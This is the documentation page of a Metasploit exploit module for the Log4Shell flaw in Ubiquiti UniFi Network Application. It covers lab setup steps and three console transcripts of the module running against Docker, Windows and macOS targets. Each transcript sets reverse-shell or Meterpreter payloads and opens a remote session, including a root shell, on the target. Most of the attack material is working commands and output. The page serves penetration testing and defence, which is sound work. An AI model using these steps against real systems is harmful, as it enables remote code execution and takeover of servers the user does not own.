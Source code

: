 ## Vulnerable Application

### Description
The Ubiquiti UniFi Network Application versions 5.13.29 through 6.5.53 are affected by the Log4Shell
vulnerability whereby a JNDI string can be sent to the server via the 'remember' field of a POST request to the
/api/login endpoint that will cause the server to connect to the attacker and deserialize a malicious Java
object. This results in OS command execution in the context of the server application.

This module will start an LDAP server that the target will need to connect to.

### Setup

1. Either install the Windows application, or start the docker container (use jacobalberty/unifi:v6.5.53).
2. Navigate to the service on HTTPS port 8443 to setup the UniFi controller.
3. On step 2, select the button to "Switch to Advanced Setup"
4. While still on step 2, disable the remote access and "Use your Ubiquiti account for local access" options, then
   create a local account.
5. On step 5, when prompted to setup WiFi, select the "Skip" button in the bottom right corner.
6. Review the configuration, and finalize it.

Older versions of the UniFi Network Application can be downloaded from [community.ui.com][1].

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/ubiquiti_unifi_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Scenarios

### UniFi Network Application v6.6.53 on Docker
This uses jacobalberty/unifi:v6.5.53. Note that tags v6.5.54, v6.0.45, and v5.14.23 all contain the fix for this
vulnerability. See [jacobalberty/unifi](https://hub.docker.com/r/jacobalberty/unifi) for more information.

```
msf > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Unix
TARGET => Unix
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.250.6
RHOST => 192.168.250.6
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 5 opened (192.168.250.134:4444 -> 192.168.250.6:44984 ) at 2022-01-14 09:21:04 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/lib/unifi
```

### UniFi Network Application v6.5.53 on Windows Server 2016

```
msf > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Windows
TARGET => Windows
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.159.65
RHOST => 192.168.159.65
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.65
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.65:51940 ) at 2022-01-14 09:19:25 -0500
[*] Server stopped.

meterpreter > getuid
Server username: WIN-BPID95ACQ7E\smcintyre
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### UniFi Network Application v5.14.22 on OSX 11.2.3

```
msf exploit(multi/http/ubiquiti_unifi_log4shell) > show options

Module options (exploit/multi/http/ubiquiti_unifi_log4shell):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LDIF_FILE                   no        Directory LDIF file path
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     111.111.1.11     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    222.222.2.222    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    389              yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_zsh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  222.222.2.222    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix


msf exploit(multi/http/ubiquiti_unifi_log4shell) > run

[*] Started reverse TCP handler on 222.222.2.222:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unexpected request 2
[*] Command shell session 2 opened (222.222.2.222:4444 -> 111.111.1.11:50474 ) at 2022-01-20 07:20:22 -0500
[*] Server stopped.

id
uid=501(yourmom) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),399(com.apple.access_ssh),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),400(com.apple.access_remote_ae)
```

[1]: https://community.ui.com/releases?q=network+application
